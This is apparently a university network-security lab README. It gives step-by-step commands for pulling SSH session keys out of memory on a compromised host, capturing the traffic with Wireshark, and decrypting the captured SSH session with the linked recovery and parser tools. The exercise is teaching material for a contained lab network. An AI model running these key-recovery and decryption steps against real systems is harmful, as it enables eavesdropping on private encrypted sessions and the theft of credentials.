 # SSH insecurity example
## Prerequisites
1. Host-based network with attack, infrastructure, and target VMs
2. Termsvr container in target VM

## Overview
You will setup a passive listener on an SSH session between two hosts.  In this example, these are our Attack VM (a compromised host where an attacker has local access) and the Target VM.  You will setup the connection between the two but imagine that from the attacker's perspective, that connection was happening by others and you have the local access on one side.

In addition to having local access, the attacker is able to capture the encrypted traffic going over the network.  For simplicity, you will use Wireshark running also inside the Attack VM.

```
| Attack VM (client) | <---------SSH---------> | Target VM (server) |
  (devel container)               |
                                  V
                                 Tap (Wireshark running from Attack VM)
```
Also inside the Attack VM, you will create a new development container and install utilities (details below) to be able to gather the session keys and decrypt the ssh session by using them.  For this version, you would instead use the following docker run command:  `$ docker run --name devel --network host -it ubuntu:latest /bin/bash`.  Everything else should be identical other than where you are running things from.

### Alternate approach
You can alternately capture the keys from the Target VM (server) side.  Here, you would create a devel container for an Ubuntu

```
| Attack VM (client) | <---------SSH---------> | Target VM (server) |
                                  |               (devel container)
                                  V
                                 Tap (Wireshark running from Target VM)
```

## Instructions
1. Launch a new devel container on the Attack VM and setup to capture the ssh session keys (note: we are just downloading the vanilla kali image and do not need a Dockerfile to build one) from it
    ```
    $ docker run --name devel --network host -it kalilinux/kali-last-release:latest /bin/bash 
    # apt-get update
    # apt-get install python3 python3-pip python3-venv git
    # cd ~ && mkdir sandbox && cd sandbox
    # git clone https://github.com/jhu-information-security-institute/netsec-OpenSSH-Session-Key-Recovery
    # python3 -m venv sshcrack
    # source sshcrack/bin/activate
    (sshcrack) # pip install cython psutil python-ptrace
    (sshcrack) # python3 netsec-OpenSSH-Session-Key-Recovery/pip-package/openssh_session_keys/keys.py
    ```
1. Connect to the devel container from a second session to install and build OpenSSH-Network-Parser (tool that decrypts the ssh session using the keys, and its pynids dependency)
    ```
    # apt-get install python2 python2-dev virtualenv libglib2.0-0 libpcap-dev libnet1-dev libnids-dev curl
    # curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
    # python2 get-pip.py
    # pip2 install virtualenv
    # python2 -m virtualenv venv-pynids
    # source venv-pynids/bin/activate
    (pynids) # pip2 install gevent tabulate
    (pynids) # git clone https://github.com/jhu-information-security-institute/netsec-pynids
    (pynids) # cd netsec-pynids 
    (pynids) # python setup.py build
    (pynids) # python setup.py install
    (pynids) # cd ..
    (pynids) # git clone https://github.com/jhu-information-security-institute/netsec-OpenSSH-Network-Parser
    (pynids) # cd netsec-OpenSSH-Network-Parser
    (pynids) # pip2 install .
    ```
1. Startup wireshark in attack VM to capture the following ssh session (use filter tcp.port eq 2222) on the interface attached to VMNet1 (on netsec-docker.isi.jhu.edu, 192.168.25.0/24).
1. From the Attack VM, SSH into the termsvr: `# ssh -p 2222 -c aes256-gcm@openssh.com student@term.netsec-docker.isi.jhu.edu`
    * Note that we specify aes256-gcm, which is supported by the network-parser tool (some of the other modes, including the default one, aren't supported)
1. Once you see the keys appear in the first console (i.e., the one running keys.py), you can exit out of the keys.py command and also the ssh session.  For the former, you'll want the results that were output to the screen and save the pcap for the latter.
1. Copy the saved *.pcap into your devel docker container.  Then, in your second devel session, use the network-parser utility to decrypt the *.pcap by providing it and the captured keys to the following command: `(pynids) # network-parser -p <PCAPFILE> -o my/output/dir --proto=[protocol] [--popt key=value] [-s] [-vvvv]`
1. Fun and profit!

## Useful links
* https://research.nccgroup.com/2020/11/11/decrypting-openssh-sessions-for-fun-and-profit
* https://github.com/jhu-information-security-institute/netsec-OpenSSH-Session-Key-Recovery
* https://github.com/jhu-information-security-institute/netsec-OpenSSH-Network-Parser
* https://github.com/jhu-information-security-institute/netsec-pynids

